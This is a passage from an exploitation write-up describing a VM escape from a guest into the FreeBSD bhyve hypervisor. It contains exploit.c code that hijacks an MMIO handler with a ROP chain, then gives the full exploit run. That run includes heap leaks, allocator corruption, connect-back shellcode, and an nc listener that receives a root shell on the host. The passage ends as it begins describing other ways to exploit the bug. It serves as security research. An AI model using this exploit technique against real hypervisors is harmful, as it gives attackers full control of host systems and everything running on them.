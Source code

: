 ---[ exploit.c ]---
. . .
        /* fix the mmio handler */
        mmio_range_gva->mr_param.handler = (void *)pop_rbp;
        mmio_range_gva->mr_param.arg1 = (void *)pop_rsp;                
        mmio_range_gva->mr_param.arg2 = rop;                    
    
        mmio = map_phy_address(0xD0000000, getpagesize());
        mmio[0];
. . .

Running the VM escape exploit gives a connect back shell to the guest with
the following output:

root@linuxguest:~/setupA/vga_fakearena_exploit# ./exploit 192.168.182.148
6969
exploit: [+] CPU affinity set to vCPU0
exploit: [+] Reading bhyve process memory...
exploit: [+] Leaked tcache avail pointers @ 0x801b71248
exploit: [+] Leaked tbin avail pointer = 0x823c10000
exploit: [+] Offset of tbin avail pointer = 0xfcf60
exploit: [+] Leaked vga_softc @ 0x801a74000
exploit: [+] Guest base address = 0x802000000
exploit: [+] Disabling ACPI shutdown to free mevent struct...
exploit: [+] Shared data structures mapped @ 0x811e00000
exploit: [+] Overwriting tbin avail pointers...
exploit: [+] Enabling ACPI shutdown to reallocate mevent struct...
exploit: [+] Leaked .text power_button_handler address = 0x430380
exploit: [+] Modifying mevent structure next and previous pointers...
exploit: [+] Disabling ACPI shutdown to overwrite mmio_hint using fake
mevent struct...
exploit: [+] Preparing connect back shellcode for 192.168.182.148:6969
exploit: [+] Shared payload mapped @ 0x811c00000
exploit: [+] Triggering MMIO read to trigger payload
root@linuxguest:~/setupA/vga_fakearena_exploit#

renorobert@linuxguest:~$ nc -vvv -l 6969
Listening on [0.0.0.0] (family 0, port 6969)
Connection from [192.168.182.146] port 6969 [tcp/*] accepted (family 2,
sport 35381)
uname -a
FreeBSD  11.0-RELEASE-p1 FreeBSD 11.0-RELEASE-p1 #0 r306420: Thu Sep 29
01:43:23 UTC 2016
root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC  amd64

--[ 4 - Other exploitation strategies

This section details about other ways to exploit the bug by corrupting
structures used for I/O port emulation and PCI config space emulation.

----[ 4.1 - Allocating a region into another size class for free()

Section 3.7 details about setting up fake arena chunk headers to free an
arbitrary pointer during the call to mevent_delete(). However, there is an
alternate way to achieve this by allocating the mevent structure as part of
an existing thread cache allocation. 
